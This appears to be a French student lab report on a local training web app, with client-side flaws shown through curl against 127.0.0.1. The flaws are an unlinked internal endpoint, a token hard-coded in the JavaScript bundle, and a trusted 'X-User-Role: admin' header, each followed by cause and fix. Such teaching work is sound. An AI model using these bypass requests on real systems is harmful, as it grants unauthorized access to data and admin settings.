







# 🌐 TP07 — Travail individuel `/tp07/tp/` : rapport

## 👀 Aperçu



## 📋 Contexte

Application : « Portail fournisseurs » (`tp07/tp/`), minifiée, sans source map.
Analyse statique du client (`app.min.js`), puis preuve par `curl` hors navigateur.
Serveur local, `127.0.0.1:8000`, aucune communication externe.

## 🧭 Méthode

```js
const BASE="/api/tp07/v2", PARTNER_TOKEN="pt_4d1f7a0c93e2b856";
function role(){return localStorage.getItem("portal_role")||"partner"}
function headers(t){return Object.assign({"X-User-Role":role()},t||{})}
async function exportAll(){return getJson("/internal/export")}
...
window.__debugExport = exportAll;
```

Trois éléments ressortent : une route jamais appelée par l'interface (`/internal/export`), un jeton codé en dur (`PARTNER_TOKEN`), et un rôle lu dans `localStorage`, envoyé au serveur dans l'en-tête `X-User-Role` et utilisé aussi côté client pour afficher le panneau admin.

Vu dans Sources (`tp07/tp/app.min.js`, pretty-print) :



## 🚪 1. Endpoint interne non exposé par l'interface

Aucun bouton n'appelle `/internal/export`. Le code ne l'atteint que via `window.__debugExport()`, accessible depuis la console du navigateur.

```
curl -i http://127.0.0.1:8000/api/tp07/v2/internal/export
```

→ `200 OK`, `{"flag": "TP07-A-endpoint-interne", ...}`



**Cause** : le serveur ne distingue pas une route « interne » d'une route publique ; il répond à toute requête correctement formée, sans vérifier qui l'appelle.
**Correctif** : authentifier et autoriser cette route côté serveur, indépendamment de ce que l'interface affiche ou non.

## 🔑 2. Secret codé en dur dans le client

`PARTNER_TOKEN` est en clair dans `app.min.js`, utilisé pour l'en-tête `X-Partner-Token`.

Sans le jeton :

```
curl -i http://127.0.0.1:8000/api/tp07/v2/invoices
```

→ `401 Unauthorized`, `{"error": "authentification refusee"}`



Avec le jeton lu dans le bundle :

```
curl -i http://127.0.0.1:8000/api/tp07/v2/invoices -H "X-Partner-Token: pt_4d1f7a0c93e2b856"
```

→ `200 OK`, `{"flag": "TP07-B-jeton-en-dur", "invoices": [...]}`



**Cause** : un secret envoyé au navigateur est lisible par quiconque ouvre les DevTools ; il n'y a alors plus de secret.
**Correctif** : ne jamais placer de jeton d'authentification dans le code client. L'échange doit se faire côté serveur (session utilisateur, jeton émis après connexion, etc.).

## 🎭 3. Contrôle d'accès délégué au client

Le rôle vient de `localStorage.getItem("portal_role")`, modifiable par n'importe quel visiteur (Application → Local Storage, ou `localStorage.setItem("portal_role","admin")` en console), puis envoyé au serveur dans `X-User-Role`.

Sans l'astuce :

```
curl -i http://127.0.0.1:8000/api/tp07/v2/admin/settings
```

→ `403 Forbidden`, `{"error": "acces refuse"}`



Avec le rôle fourni par le client :

```
curl -i http://127.0.0.1:8000/api/tp07/v2/admin/settings -H "X-User-Role: admin"
```

→ `200 OK`, `{"flag": "TP07-C-role-fourni-par-le-client", "settings": {...}}`



**Cause** : le serveur fait confiance à une information que le client choisit librement
(`X-User-Role`), au lieu de la vérifier lui-même.
**Correctif** : le rôle doit être déterminé et conservé côté serveur (session authentifiée), jamais accepté tel quel depuis un en-tête ou une valeur envoyée par le navigateur.

## 💬 Réponse à la question de restitution

*Où doit vivre un contrôle de sécurité ?* Toujours côté serveur. Cacher un bouton, une route ou un secret dans le client ne protège rien : tout ce que le navigateur reçoit est lisible et modifiable. Seule une vérification faite par le serveur, sur des informations qu'il contrôle lui-même (session, jeton signé, rôle stocké côté serveur), constitue un vrai contrôle d'accès.
